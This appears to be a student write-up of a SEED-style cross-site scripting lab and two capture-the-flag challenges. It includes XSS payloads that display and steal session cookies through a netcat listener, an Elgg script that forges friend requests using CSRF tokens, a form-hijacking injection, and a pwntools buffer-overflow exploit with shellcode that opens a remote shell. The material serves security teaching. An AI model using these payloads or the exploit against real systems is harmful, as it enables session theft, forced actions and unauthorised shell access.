

# Cross-Site Scripting (XSS) Attack Lab

## Task 1
To do the first task we just need to login as Samy and edit his brief description field to:

```HTML
<script>alert(’XSS’);</script>
```


Now whenever we access Samy's profile, an alert box will be shown as we can see in the following screenshot:


## Task 2
For the second task, we will edit the previous field to:

```HTML
<script>alert(document.cookie);</script>
```


Now whenever we access Samy's profile, an alert box will be shown with the session cokie information as we can see in the following screenshot:


## Task 3

For the third task, we will edit the previous field to:

```HTML
<script>document.write(’’);
</script>
```


This will allow us (as an attacker) to get access to cokies informations. To capture this information we will need to input the following into a terminal:

```bash
$ nc -lknv 5555
```

Now whenever we access Samy's profile, we will get access to the information we want in the terminal, as we can see in the following screenshot:


## Task 4
For the fourth task, we will edit Samy's About Me field to (we need to ensure that we are in the Text mode while editing this field):

```HTML
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + token + ts; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```



Note that "59" is Samy's user ID.

Now whenever we access Samy's profile, we will add Samy as friend without even noticing it. When we refresh his profile we will see the following result:


Question 1:
The lines ``1`` and ``2`` are used to get the values of the ``__elgg_ts`` and ``__elgg_token``. These parameters are used as a security measure against Cross Site Request Forgery (CSRF) attacks, which can’t be used to access the values. Every time the page is loaded they change and therefore need to be accessed by the Cross Site Scripting attack dynamically in order to get the correct values. This is the reason why these lines are needed.

Question 2:
No, we can't launch a successful attack if the Elgg application only provides the Editor mode for the “About me” field. This happens because the Editor mode adds extra HTML and changes some of the symbols.

# CTF

## Challenge 1

Starting by analysing the platform, we can see that there's an input field which might become our "door" to inject a script so that the administrator gives us the password. 

After a first simple test with

```html
<script>alert('test');</script>
```

we confirm that the script is running on the page loading.

Then, all we need to do is to inspect the page with the buttons and look for the characteristics of the elements, as we can see in the next screenshot:


By inpecting the code, we now know that the form that contains the button the administrator always clicks on has an action to mark it as read, while the button that raises the flag doesn't have an action associated. 

This way, the simplest way to get the flag is to change the "Mark as read" button form's action to be empty. To do so, since there's no id neither a class defined for the form itself, we can just access the button element by its id ('markAsRead') and then access the parent element of his parent element, changing the action as follows:

```javascript
document.getElementById('markAsRead').parentElement.parentElement.action=""
```

To get the flag, we then type as input the following:


And wait for the flag to appear, as shown in the next screenshot:


## Challenge 2

Starting by running the ```checksec program```, we get the following output:


By analysing the output, we get to know the following:

- The architecture used is x86 (Arch)
- There's no RELRO, which means the program cannot prevent GOT (Global Offset Table) overwrite attacks (RELRO)
- There's no cannary protecting the return address (Stack)
- The stack has execution permission (NX)
- The binnary positions are randomized (PIE)
- There are memory spaces with reading, writting and execution permissions (RWX) - in this case, the stack itself

After this, we can proceed with the analysis of the code and we can see that the line

```c
gets(buffer);
```

has a buffer overflow vulnerability that can be exploited using the following Python script:

```python
#!/usr/bin/python3
from pwn import *

def my_func(ret, r):     
    shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
    ).encode('latin-1')

    content = bytearray(0x90 for i in range(500)) 

    start = 300 
    content[start:start + len(shellcode)] = shellcode

    ret = ret - 108 + start 
    offset = 108 

    L = 4
    content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 

    r.sendline(bytes(content))
    r.interactive()
```

To explain this Python script, here's what it's doing:

- It's inserting the shellcode to access the shell
- The 108 offset was calculated using ``gdb``, using the following sequence of instructions
  - ``br 9`` (breakpoint on line 9)
  - ``run``
  - ``info frame``
  - ``p &buffer`` (out_1)
  - ``p $ebp`` (out_2)
  - ``>> <out_2> - <out_1> + 4`` (plus 4 because the size of each element in the stack is 4 and the return pointer is located right above the ebp)

Using the Python interactive mode inside the VM, with the following sequence of instructions:

```python
>> from exploit_example import *
>> r = remote('10.227.243.188', 4001)
<< [x] Opening connection to 10.227.243.188 on port 4001
<< [x] Opening connection to 10.227.243.188 on port 4001: Trying 10.227.243.188
<< [+] Opening connection to 10.227.243.188 on port 4001: Done
>> r.recvuntil(b"input:")
<< b'Try to control this program.\nYour buffer is 0xffbfb5a0.\nGive me your input:'
>> my_func(0xffbfb5a0,r)
```

where ``exploit_example`` is the name of the above Python script and ``0xffbfb5a0`` the ``buffer`` address obtained from the output of the program (different on each running of the program).

With this, we get access to the shell, and then we can get the flag by inserting the following console lines:

```console
cat flag.txt
```

